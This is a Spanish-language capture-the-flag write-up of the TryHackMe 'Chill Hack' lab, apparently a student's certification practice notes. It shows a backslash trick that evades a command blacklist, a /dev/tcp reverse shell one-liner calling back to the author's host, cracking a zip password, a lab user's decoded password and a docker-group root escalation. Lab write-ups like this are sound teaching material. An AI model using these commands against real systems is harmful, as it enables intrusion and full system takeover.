# Chill Hack

## Información General

<h3>Dificultad:  </h3>

<h3> Sistema operativo: Linux </h3> 

<h3> Vulnerabilidad explotada: Reverse shell y el escalada de privilegio con docker</h3>

<h3> Fecha de resolución: 04/07/2025 </h3>

<h3>Enlace de la mv: <a href="https://tryhackme.com/room/chillhack" target="_blank">Chill Hack</a></h3>

### *Leer el documentro en Ingles:* <a href="chillhack_english.md">Chill Hack</a>

## Reconocimiento

TryHackme nos proporciona la ip de la máquina objetivo **ip_objetivo**

Voy a establecer en el fichero **/etc/hosts** la **ip de la mv objetivo**, la voy a llamar **chill hack**

<p align="center"> 

</p>

### Ping

```
ping -c 1 chillhack
```

<p align="center"> 

</p>

**Su ttl=63, por tanto es Linux**
### Escaneo de puertos abiertos

#### Escaneo de puerto TCP

El comando que uso con nmap es:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn chillhack
```

<p align="center"> 

</p>

<div align="center">

| Open port | Service | Version             |
| --------- | ------- | ------------------- |
| 21        | ftp     | vsftpd 3.0.5        |
| 22        | ssh     | Ubuntu 4ubuntu0.13  |
| http      | http    | Apache httpd 2.4.41 |

</div>

#### Escaneo de puerto UDP

```
nmap -sU --top-ports 200 --min-rate=5000 -Pn chillhack
```

**Ningún puerto abierto**
## Exploración

### ftp

Logro logearme con el usuario **anonymous** por servicio **ftp**

```
ftp anonymous@chillhack
ls -la
```

<p align="center"> 

</p>

```
get note.txt
cat note.txt
```
Con el objetivo de descargar la nota

```
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```
```
Anurodh me dijo que hay algún tipo de filtrado en las cadenas que se introducen en el comando -- Apaar
```
Tenemos dos usuarios **anurodh** y **apaar**, intento realizar fuerza bruta con ambos usuarios por ssh, ya que está abierto el puerto, pero **no funciono**
## http

```
http://chillhack/
```

<p align="center"> 

</p>

### Fuzzing web

```
gobuster dir -u http://ip_obejtivo/ -w /usr/share/wordlists/dirbuster directory-list-lowercase-2.3-medium.txt 
```

<p align="center"> 

</p>

Me llama mucha la atención esta ruta **secret**

```
http://chillhack/secret/
```

Podemos ejecutar comandos como:

```
whoami
```

<p align="center"> 

</p>

Luego si pongo comando como

```
ls
```

<p align="center"> 

</p>

Me fijo en el código fuente para a ver si consigo algo de información... **y no encuentro nada**

Luego, recuerdo en una clase de ciberseguridad en mi centro Alan turing, que había otra manera de escribir comando, colocando una **barra invertida* por ejemplo: ls --> l\s

```
l\s
```

<p align="center"> 

</p>

```
c\at index.php
```

<p align="center"> 

</p>

Me encuentro con la sorpresa que tengo restringido los siguientes comandos como **('nc', 'python', 'bash','php','perl','rm','cat','head','tail','python3','more','less','sh','ls');**. Por tanto se me ocurre llevar una reverse shell pero con una barra invertida.

## Explotación

Antes preparamos el puerto de escucha en una terminal:

```
sudo nc -lvnp 4444
```

Luego lanzamos este comando:

```
b\ash -c "sh -i >& /dev/tcp/10.8.139.36/4444 0>&1"
whoami
```

<p align="center"> 

</p>

Intento ir a por la primera flag que es la de usuario, y me encuentro que no puedo acceder a ella

<p align="center"> 

</p>

## Explotación Posterior

#### TTY

```
script /dev/null -c bash
```

**control z**

```
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```
### Escalada de Privilegios

#### Primer intento:

```
sudo -l
```

<p align="center"> 

</p>

```
sudo -u apaar /home/apaar/.helpline.sh
```

<p align="center"> 

</p>

Explico un poco lo que he hecho, al realizar el comando sudo -l, me sale una recomendación que si hago este comando **sudo -u apaar /home/apaar/.helpline.sh** me preguntará por mi nombre y luego me pedirá que introduzca algún mensaje que en mi caso le escribiré **bash**. Luego, ejecuto otra vez el comando de la TTY y obtengo la sesión de apaar , ahora vamos a por esa FLAG

```
cat local.txt
```

<p align="center"> 

</p>

Luego me encuentro en la situación en el que necesito escalar a root para la segunda bandera.
#### Segundo intento:

```
find / -perm -4000 2>/dev/null
```

<p align="center"> 

</p>

Intento llevar acabo la vulnerabilidad de **pkexec** pero no lo consigo.

#### Tercer intento

Llevo acabo **linpeas**, que es una herramienta de escaneo, si no sabes lo que es, te recomiendo que investigue su funcionamiento es muy útil!

```
.\linpeas.sh
```

<p align="center"> 

</p>

Intento llevar esta vulnerabilidad y **tampoco lo consigo**. Estoy desesperado, y decido empezar de nuevo. 

#### Cuarto Intento

Investigando me encuentro una imagen.

<p align="center"> 

</p>

Comparto el archivo:

```
python3 -m http.server 80
```
luego uso el comando **wget** para descargalo. Uso una herramienta de estenanografía que es:

```
steghide extract -sf hacker-with-laptop_23-2147985341.jpg
```
Hay un dentro un zip, pero está cifrado. Por tanto uso john de ripper para descifrar la contraseña:

```
zip2john backup.zip > contraseña.txt
john --wordlist=/usr/share/wordlists/rockyou.txt contraseña.txt
```
En mi caso como ya lo hize te lo muestro con el siguiente comando:

```
john --show contraseña.txt
```

<p align="center"> 

</p>

Luego, me encuentro con este archivo **source_code.php**

```
nano source_code.php
```

<p align="center"> 

</p>

Me encuentro con la sorpresa que tenemos el usuario **anurodh** y su contraseña IWQwbnRLbjB3bVlwQHNzdzByZA== en base 64

```
echo 'IWQwbnRLbjB3bVlwQHNzdzByZA==' | base64 -d
```

<p align="center"> 

</p>

**Usuario: anurodh**
**Contraseña: !d0ntKn0wmYp@ssw0rd** 

uso ssh con el usuario anurodh

```
ssh anurodh@chillhack
```

<p align="center"> 

</p>

Luego uso este comando y nos fijamos aquí:

```
id
```

<p align="center"> 

</p>

Cuando abres shell con docker podemos intentar el siguiente comando, para escalar privilegio, lo encontraras <a href="https://gtfobins.github.io" target="_blank">aqui</a> Escribe en el navegador **docker** y nos situamos en el apartado de **shell**

<p align="center"> 

</p>

```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

<p align="center"> 

</p>

A veces, parece hasta fácil esto eh, yo alucino... Si supieras el tiempo que llevo atascado en esta parte. 

La FLAG de root

<p align="center"> 

</p>

**Maquina terminada**

## Conclusión

Esta máquina destaca especialmente porque me permitió repasar casi todo lo que he ido aprendiendo durante mi preparación para la certificación **eJPTv2**: desde el uso de **John the Ripper**, la decodificación en **Base64**, hasta el manejo de una **reverse shell**.

Una de las partes que más me frustró fue no poder ejecutar ciertos comandos, como `cat`, directamente desde el navegador. Después de un rato dándole vueltas, me di cuenta de que se trataba de una restricción que podía saltarme usando una barra invertida (`\`) antes del comando. Ese pequeño detalle hizo toda la diferencia.

En cuanto a la **escalada de privilegios**, probé varias técnicas que me habían funcionado en otras máquinas, pero ninguna dio resultado. Finalmente, investigando un poco, descubrí una forma sencilla de escalar privilegios aprovechando que el usuario pertenecía al grupo **docker**. Esta técnica fue totalmente nueva para mí, y me pareció muy interesante por lo fácil que resulta comprometer el sistema desde ahí.

En resumen, cada máquina es una oportunidad de aprender algo nuevo. Esta, sin duda, la recomiendo.